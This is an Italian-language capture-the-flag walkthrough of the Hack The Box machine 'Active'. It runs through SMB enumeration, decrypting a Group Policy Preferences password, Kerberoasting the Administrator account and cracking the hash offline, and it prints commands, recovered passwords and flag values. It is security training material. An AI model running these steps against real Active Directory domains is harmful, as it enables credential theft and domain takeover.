


# **Active**


## **Reconnaissance**

Si esegue una prima scansione per identificare le porte TCP aperte sulla macchina target.
```bash
$ nmap -p- --min-rate 1000 10.129.35.92 --open
```
```
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5722/tcp  open  msdfsr
9389/tcp  open  adws
47001/tcp open  winrm
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49157/tcp open  unknown
49158/tcp open  unknown
49162/tcp open  unknown
49166/tcp open  unknown
49168/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 26.23 seconds
```

I servizi esposti come Kerberos, LDAP, SMB e ADWS fanno pensare che ci si trova in un dominio Active Directory.

Si identificano versioni ed altre informazioni per alcune delle porte TCP esposte.
```bash
$ nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,47001 -sCV 10.129.35.92
```
```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-11-07 09:12:53Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5722/tcp  open  msrpc         Microsoft Windows RPC
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-11-07T09:13:44
|_  start_date: 2025-11-07T08:58:16
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required
|_clock-skew: -1s

Nmap done: 1 IP address (1 host up) scanned in 67.96 seconds
```

Di seguito un riepilogo delle informazioni ottenute dal dominio **active.htb**:
- **Microsoft DNS** sulla porta **53/tcp**
- **Microsoft Windows Kerberos** sulla porta **88/tcp** e **Kerberos password change** sulla porta **464/tcp**
- **Microsoft Windows RPC** sulla porta 139/tcp
- **Microsoft Windows Active Directory LDAP** sulla porta **139/tcp**
- **SMB** sulla porta **445/tcp**
- **Active Directory Web Services (ADWS)** sulla porta **9389/tcp**

Si aggiorna il file /etc/hosts sulla macchina Kali, aggiungendo un record di associazione dell'indirizzo IP della macchina target con il dominio active.htb e l'hostname DC:
```text
10.129.35.92 DC DC.active.htb active.htb
```

## **Enumeration via SMB**
Si tenta una prima enumerazione tramite SMB.

L'accesso con l'account guest è disabilitato.
```bash
$ nxc smb active.htb -u guest -p ''
```
```
SMB         10.129.35.92    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.35.92    445    DC               [-] active.htb\guest: STATUS_ACCOUNT_DISABLED 
```
L'accesso con l'account anonimo è permesso.
```bash
$ nxc smb active.htb -u '' -p ''
```
```
SMB         10.129.35.92    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.35.92    445    DC               [+] active.htb\:
```

Si enumerano le **shares**.
```bash
$ nxc smb active.htb -u '' -p '' --shares
```
```
SMB         10.129.35.92    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.35.92    445    DC               [+] active.htb\: 
SMB         10.129.35.92    445    DC               [*] Enumerated shares
SMB         10.129.35.92    445    DC               Share           Permissions     Remark
SMB         10.129.35.92    445    DC               -----           -----------     ------
SMB         10.129.35.92    445    DC               ADMIN$                          Remote Admin
SMB         10.129.35.92    445    DC               C$                              Default share
SMB         10.129.35.92    445    DC               IPC$                            Remote IPC
SMB         10.129.35.92    445    DC               NETLOGON                        Logon server share 
SMB         10.129.35.92    445    DC               Replication     READ            
SMB         10.129.35.92    445    DC               SYSVOL                          Logon server share 
SMB         10.129.35.92    445    DC               Users
```

Si ha accesso il lettura alla share **Replication**.

Si enumerano gli **users**.
```bash
$ nxc smb active.htb -u '' -p '' --users
```
```
SMB         10.129.35.92    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.35.92    445    DC               [+] active.htb\:
```

Nessun utente identificato.

### Replication share
Si accede al contenuto della share Replication.
```bash
$ impacket-smbclient ''@active.htb
```
```
# use Replication

# ls
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 .
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 ..
drw-rw-rw-          0  Sat Jul 21 06:37:44 2018 active.htb

# tree active.htb
/active.htb/DfsrPrivate/ConflictAndDeleted
/active.htb/DfsrPrivate/Deleted
/active.htb/DfsrPrivate/Installing
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/USER
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/USER
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit
/active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
/active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf
Finished - 28 files and folders
```

Si scarica sulla macchina Kali il file **/MACHINE/Preferences/Groups/Groups.xml**,
```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```

Con questa **Group Policy Preference (GPP)** si definisce la **cpassword** per il gruppo **active.htb\SVC_TGS**.

### Cracking GGP password
La cpassword viene cifrata con AES-256. Si tenta il cracking della password.
```bash
$ gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```
```
GPPstillStandingStrong2k18
```

Si ottengono le credenziali **svc_tgs:GPPstillStandingStrong2k18**.

Si verifica la validità per SMB.
```bash
$ nxc smb active.htb -u 'svc_tgs' -p 'GPPstillStandingStrong2k18'
```
```
SMB         10.129.35.92    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.35.92    445    DC               [+] active.htb\svc_tgs:GPPstillStandingStrong2k18
```

## **SMB as svc_tgs**
Si enumerano le shares.
```bash
$ nxc smb active.htb -u 'svc_tgs' -p 'GPPstillStandingStrong2k18' --shares
```
```
SMB         10.129.35.92    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.35.92    445    DC               [+] active.htb\svc_tgs:GPPstillStandingStrong2k18 
SMB         10.129.35.92    445    DC               [*] Enumerated shares
SMB         10.129.35.92    445    DC               Share           Permissions     Remark
SMB         10.129.35.92    445    DC               -----           -----------     ------
SMB         10.129.35.92    445    DC               ADMIN$                          Remote Admin
SMB         10.129.35.92    445    DC               C$                              Default share
SMB         10.129.35.92    445    DC               IPC$                            Remote IPC
SMB         10.129.35.92    445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.35.92    445    DC               Replication     READ            
SMB         10.129.35.92    445    DC               SYSVOL          READ            Logon server share 
SMB         10.129.35.92    445    DC               Users           READ 
```

Si possiedono i permessi di lettura per la share **Users**.

Si enumerano gli users.
```bash
$ nxc smb active.htb -u 'svc_tgs' -p 'GPPstillStandingStrong2k18' --users
```
```
SMB         10.129.35.92    445    DC               [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False) 
SMB         10.129.35.92    445    DC               [+] active.htb\svc_tgs:GPPstillStandingStrong2k18 
SMB         10.129.35.92    445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.35.92    445    DC               Administrator                 2018-07-18 19:06:40 0       Built-in account for administering the computer/domain 
SMB         10.129.35.92    445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.35.92    445    DC               krbtgt                        2018-07-18 18:50:36 0       Key Distribution Center Service Account 
SMB         10.129.35.92    445    DC               SVC_TGS                       2018-07-18 20:14:38 0        
SMB         10.129.35.92    445    DC               [*] Enumerated 4 local users: ACTIVE
```

Gli utenti presenti nel dominio sono:
- Administrator
- Guest
- krbtgt
- svc_tgs

### Users Share
Si accede al contenuto della share Users.
```bash
$ impacket-smbclient 'svc_tgs'@active.htb
```
```
# use Users

# ls
drw-rw-rw-          0  Sat Jul 21 10:39:20 2018 .
drw-rw-rw-          0  Sat Jul 21 10:39:20 2018 ..
drw-rw-rw-          0  Mon Jul 16 06:14:21 2018 Administrator
drw-rw-rw-          0  Mon Jul 16 17:08:56 2018 All Users
drw-rw-rw-          0  Mon Jul 16 17:08:47 2018 Default
drw-rw-rw-          0  Mon Jul 16 17:08:56 2018 Default User
-rw-rw-rw-        174  Mon Jul 16 17:01:17 2018 desktop.ini
drw-rw-rw-          0  Mon Jul 16 17:08:47 2018 Public
drw-rw-rw-          0  Sat Jul 21 11:16:32 2018 SVC_TGS

# tree SVC_TGS
/SVC_TGS/Desktop/user.txt
Finished - 12 files and folders
```

Si accede al file **user.txt**.
```
# cat /SVC_TGS/Desktop/user.txt
85bb027a1015d3e09c32a70f6cb6156b
```

Si analizza l'account Administrator con una query LDAP.



L'account Administrator ha **SPN** **active/CIFS:445**.

## **Kerberoasting**
L'idea del kerberoasting è quella di sfruttare il valore di SPN registrato nel dominio per poter richiedere un ticket TGS per accedere al servizio per poi tentare di crackare la password del servizio (in questo caso dell'account Administrator) offline.

```bash
$ # Request a TGS for active/CIFS:445
$ impacket-GetUserSPNs active.htb/svc_tgs:'GPPstillStandingStrong2k18' -request-user Administrator -save
```



Si memorizza la TGS-REP nel file Administrator.hash e si effettua il cracking.

```bash
# Offline cracking 
$ hashcat -a 0 -m 13100 Administrator.hash /usr/share/wordlists/rockyou.txt 
```
```
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$48bc884fd7fb2ca94a826aac4db88ab4$d9340a0a31232f7802cd50616d26a6c5764686db47e34b3a75b2c5241c15a338ced37a619cf83db33ae816251b489ada9659e99c79654f262e53b9c644abdc5153e081d51b9b9cd70a84f2312f10c4960d558f9eef9158cf59399a40f30284d5ee74a9465cca338da078094c10ef82a68269a50d6e4250c20a7d41623ca8fc35ae925b966199e0406bfe32f69158afd40016d752ba9cfeb7436e7ac4346858328143a1d49bf90498f1c388c3b29b398ded8f46a9645ab21dd95472a17d427b96a742835b402f7ea8fd17a07a25103b171fd7e0578d8adb6f3499303565f731ae18ff2a3e048abb96dbac8c3c710a860b2d58f31b43aee902e575bd47ae14c4aa6561ecb17595cc8619f4f6cef0e40e4ddc021e49fccf2f9576ad6b0dd8f8ead1713e1c40fd699428906b7bb18be65db3aa0ae1c4299af1a1ad4672d5ec7d5af27524ac373481ed077d5d20599ae47639ace572db4e90b3115a89056e890828933de454ef80782a9066a4d3cb33cf6f5de55fbc7611cf7af15de3b7b42c6f97192f74f28f50c63688d0991d73c95ac6b098417b147ac4ec1e1e11240350c81001e59a0226a7265c397914078d3070ca673ff0cb942a0bf635caec849ebe82f4b7128939a005b26ac600436f557e8d2cea2483a76c72bfb7cb68c1b4a46a9e6f8611092710c93bfbf13856fb35729804f11feb07c5342ba0c44e9dd04296e9cad5afb08ac0f196e24777ed511f6ff2f738f7a477477fa9437366551d64e100da1087e78a1423683d119d5d47e0fc0c20ad1534bfd8db6fe26f126ae0e1626d7072ebc84716b261eaabc4c69e4c6575b12a4863c5f2300b8c5e66e25d671be00a825b6db8b791415f8facb8eb8150e81ab772a13dd4a9822804a17f7621c0155b0ff921f092d681708bab5511da1cb3a844d90332fef660a1da54080a7fd476d8e7ad6473a1e64c03eb34bb7b53e6ef1032d75540c9a9a11ba1cc6c28d3b5cdd410361d18b8d5b21e400bcc764967e83245706aad825c81ea99e70b758fbb374e32270a3a4fdfe4e54fd0c4be92970e6a470a24091b5fefb0626e85509d2a73615a183a51f8f2bfd61b29868f320a9eb6cec368c7a098ac133c14ed7bc3b65fb1c4095485b203b82f12e19da0136d3746dd2dc9d2282e1e0af8d6a7e7667eabb6828ade32e2dba082116898aefa3be52f954838864365b2b3fe426822aaf896525433af5a063c164c9498c8682daf46cfa60f8208c82dcdb96cf6f8:Ticketmaster1968
```

Si ottengono le credenziali **Administrator:Ticketmaster1968**.

## **SMB as Administrator**
Si accede a SMB con le credenziali di Administrator.
```bash
$ impacket-smbclient 'Administrator'@active.htb 
```
```
# use Users

# ls
drw-rw-rw-          0  Sat Jul 21 10:39:20 2018 .
drw-rw-rw-          0  Sat Jul 21 10:39:20 2018 ..
drw-rw-rw-          0  Mon Jul 16 06:14:21 2018 Administrator
drw-rw-rw-          0  Mon Jul 16 17:08:56 2018 All Users
drw-rw-rw-          0  Mon Jul 16 17:08:47 2018 Default
drw-rw-rw-          0  Mon Jul 16 17:08:56 2018 Default User
-rw-rw-rw-        174  Mon Jul 16 17:01:17 2018 desktop.ini
drw-rw-rw-          0  Mon Jul 16 17:08:47 2018 Public
drw-rw-rw-          0  Sat Jul 21 11:16:32 2018 SVC_TGS

# tree Administrator/Desktop
/Administrator/Desktop/desktop.ini
/Administrator/Desktop/root.txt
Finished - 0 files and folders
```
Si legge il contenuto del file **root.txt**.
```
# cat /Administrator/Desktop/root.txt
872f5f7d8649e2a6a91d15e620d37df3
```

---
